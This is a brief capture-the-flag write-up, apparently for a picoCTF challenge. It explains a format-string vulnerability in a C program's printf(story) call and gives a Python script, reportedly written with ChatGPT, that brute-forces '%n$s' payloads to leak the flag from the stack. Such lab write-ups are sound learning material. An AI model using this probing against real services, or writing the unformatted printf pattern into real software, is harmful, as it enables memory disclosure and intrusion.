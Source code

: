 # flag_leak challenge

## Flag
CTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}



from the analysis of the source and experience/knowledge while working on buffer_overflow_0,
```
printf("Tell me a story and then I'll tell you one >> ");
scanf("%127s", story);
printf("Here's a story - \n");
printf(story);
printf("\n");
```
no format specifier used in `printf(story)` 
using this exploit it is possible to dump the contents of the stack and ultimately the memory address of our flag on the heap stored as a local variable after the readflag(flag, FLAGSIZE) function is called

a brute force method was to view the contents of every index at stack, i tried doing it manually, was too much so I asked chatGPT to write a script 
created a flag.txt file and ran the script locally. It worked because `checksec vuln` mentioned PIE is disabled, so addresses for this program do not change. 

```
import subprocess

def find_flag(program_path):
    for n in range(1, 500):  # Adjust range as needed
        payload = f"%{n}$s"
        try:
            # Run the program with the payload as input
            process = subprocess.Popen(
                [program_path],
                stdin=subprocess.PIPE,
                stdout=subprocess.PIPE,
                stderr=subprocess.PIPE,
                text=True
            )
            stdout, stderr = process.communicate(input=payload)

            # Check if the output contains the flag
            if "picoCTF" in stdout:
                print(f"Flag found: {stdout.strip()}")
                break
        except Exception as e:
            print(f"Error on index {n}: {e}")
            continue
    else:
        print("Flag not found within the specified range.")

# Path to your program
program_path = "./vuln"  # Replace with the actual program path

find_flag(program_path)
```

and found it at index 24! ran it in the webshell and got the flag. 
